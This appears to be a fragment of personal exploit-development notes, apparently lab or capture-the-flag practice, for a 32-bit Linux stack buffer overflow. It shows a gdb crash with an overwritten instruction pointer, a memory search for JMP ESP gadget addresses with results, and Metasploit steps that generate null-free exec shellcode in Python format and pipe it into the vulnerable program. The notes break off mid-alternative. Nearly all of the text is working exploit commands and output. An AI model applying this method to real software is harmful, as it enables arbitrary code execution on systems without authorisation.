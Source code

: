 	find /b <Top Mem Location> , <Bot Mem Location>, 0xff, 0xe4

 0xff = jump 0xe4 = jump esp 
```
Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
(gdb) find /b 0xf7de1000 , 0xffffe000, 0xff, 0xe4
0xf7de3b59
0xf7f588ab
0xf7f645fb
0xf7f6460f
0xf7f64aeb
0xf7f64aff
0xf7f64d6f
0xf7f64f97
0xf7f650cf
0xf7f65343
0xf7f65497
0xf7f655cf
0xf7f65777
0xf7f659ef
0xf7f662eb
0xf7f6649b
0xf7f66533
0xf7f66633
0xf7f66b3b
0xf7f66b8b
0xf7f66cdb
0xf7f67033
0xf7f67203
0xf7f67293

```

# Start metasploit
 msfconsole

 use payload/linux/x86/exec

 show options
 
 set CMD whoami

show options

generate -b "\x00" -f python

***take buf and copy into script***

run <<< $(python test.py)

# **OR**
 